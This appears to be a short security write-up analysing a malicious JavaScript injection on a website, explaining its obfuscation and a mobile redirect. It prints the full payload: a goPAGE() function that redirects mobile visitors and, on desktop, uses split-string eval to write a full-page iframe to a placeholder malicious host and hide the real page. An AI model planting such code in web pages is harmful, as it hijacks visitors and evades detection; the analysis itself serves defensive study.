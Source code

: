 Strange. A script tag referencing code that lives in some random IP address with HTTP connections. LGTM 👍.

```js
/* Some more Baidu Analytics code to track your activity */
var _hmt = _hmt || [];
(function() {
  var hm = document.createElement("script");
  hm.src = "https://hm.baidu.com/hm.js?12345";
  var s = document.getElementsByTagName("script")[0]; 
  s.parentNode.insertBefore(hm, s);
})();

function goPAGE() {
    if ((navigator.userAgent.match(/(phone|pad|pod|iPhone|iPod|ios|iPad|Android|Mobile|BlackBerry|IEMobile|MQQBrowser|JUC|Fennec|wOSBrowser|BrowserNG|WebOS|Symbian|Windows Phone)/i))) {
        window.location.href = "http://www.maliciouspage.com"
    } else {
        var ss = '<center id="importantDiv"><ifr' + 'ame scrolling="no" marginheight=0 marginwidth=0  frameborder="0" width="100%" width="14' + '00" height="108' + '88" src="http://www.maliciouspage.com"></iframe></center>';
        eval("do" + "cu" + "ment.wr" + "ite('" + ss + "');");
        try {
            setInterval(function() {
                try {
                    document.getElementById("div" + "All").style.display = "no" + "ne"
                } catch (e) {}
                for (var i = 0; i < document.body.children.length; i++) {
                    try {
                        var tagname = document.body.children[i].tagName;
                        var myid = document.body.children[i].id;
                        if (myid != "iconDiv1" && myid != "importantDiv") {
                            document.body.children[i].style.display = "non" + "e"
                        }
                    } catch (e) {}
                }
            }, 100)
        } catch (e) {}
    }
}
goPAGE();
```

Notice how some of the JavaScript that is shown above is obfuscated to escape detection. The first portion of the code is just a classic analytics code sent to Baidu. The second part with the `goPAGE()` function is the meat of the exploit.

It first checks if you are using a mobile device and redirects you directly to the website if you are.

```js
if ((navigator.userAgent.match(/(phone|pad|pod|iPhone|iPod|ios|iPad|Android|Mobile|BlackBerry|IEMobile|MQQBrowser|JUC|Fennec|wOSBrowser|BrowserNG|WebOS|Symbian|Windows Phone)/i))) {
        window.location.href = "http://www.maliciouspage.com"
}
```
